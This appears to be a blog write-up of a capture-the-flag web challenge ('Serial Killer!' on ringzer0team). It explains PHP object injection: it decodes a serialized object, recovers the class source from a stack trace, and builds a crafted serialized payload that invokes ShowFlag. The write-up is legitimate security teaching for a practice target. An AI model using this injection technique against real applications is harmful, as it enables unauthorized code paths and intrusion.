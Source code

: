 ```yaml
---
layout: post
title:  "Writeup - ringzer0team.com challenges (web 41) - 'Serial Killer!'"
date:   2018-05-21 11:14:41 -0400
categories: ringzer0team.com writeup
---
```

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-init.png)
This challenge initially displays a timestamp on the page. Digging into the request being sent, notice that there is a base64 encoded string within the GET request:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-base64.png)

When decoded, this is immediately recognizable as a serialized PHP object:

{% highlight php %}
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":1:{s:6:"action";s:14:"GetCurrentDate";}}
{% endhighlight %}

What happens if we add a single character within the base64 encoded "?o=" serialized value to upset the object structure? A wild stack trace appears:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-stack-trace.png)

Cleaning this up reveals the following PHP code. This shows the same 'RandomClass' class as exists in the discovered serialized string. What if we could inject our own object with arbitrary values and somehow retrieve the flag? In order to do that, we must first understand how the available PHP ['magic methods'](http://php.net/manual/en/language.oop5.magic.php) within the stack trace might assist us. Recommended reading for understanding PHP Object Injection will also be linked at the bottom of this post.

{% highlight php linenos %}
<?php

class RandomClass {

    private static $instance;
    private $uStruct;
    
    public function __construct() {
        $this->uStruct = (object) array();
    }
    
    public static function GetInstance() {
        if (!isset(self::$instance)) {
            self::$instance = new self();
        }
        return self::$instance;
    }

    public function __set($key, $value) {
        $this->uStruct->$key = $value;
    }

    public function __get($key) {
        return $this->uStruct->$key;
    }
    
    public function DoAction() {
        $action = $this->uStruct->action;
        $this->$action();
    }

    public function GetCurrentDate() {
        GetCurrentDate($this->uStruct);
    }

    public function ShowFlag() {
        if ($this->uStruct->time !== null && $this->uStruct->flag == 'Please?') {
            ShowFlag($this->uStruct);
        }
    }

    public function GetOutput() {
        return $this->uStruct->output;
    }
}
?>
{% endhighlight %}

Walking through the PHP code, first notice two private members (?). Immediately following that is the __construct() method. This magic method is called on each newly-created object, generally utilized for initialization of some sort. Inside the constructor is an empty array cast to an object, which is assigned to $this->uStruct.

From the PHP documentation, ["If a value of any other type is converted to an object, a new instance of the stdClass built-in class is created. If the value was NULL, the new instance will be empty. An array converts to an object with properties named by keys and corresponding values."](http://php.net/manual/en/language.types.object.php#language.types.object.casting)

The next magic method is __set. Reading PHP docs, ["__set() is run when writing data to inaccessible properties."](http://php.net/manual/en/language.oop5.overloading.php#language.oop5.overloading.members). This looks potentially promising. The __get() magic method is also defined here, but what really catches the eyes is the ShowFlag() function. If only it was possible to set the variables $this->uStruct->time and $this->uStruct->flag and retrieve the flag...



{% highlight php %}
$obj = new RandomClass();
$obj->time = "1";
$obj->flag = "Please?";
$obj->action = "ShowFlag";
echo serialize($obj);

/* 
Output:
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":3:{s:4:"time";s:1:"1";s:4:"flag";s:7:"Please?";s:6:"action";s:8:"ShowFlag";}}
*/
{% endhighlight %}
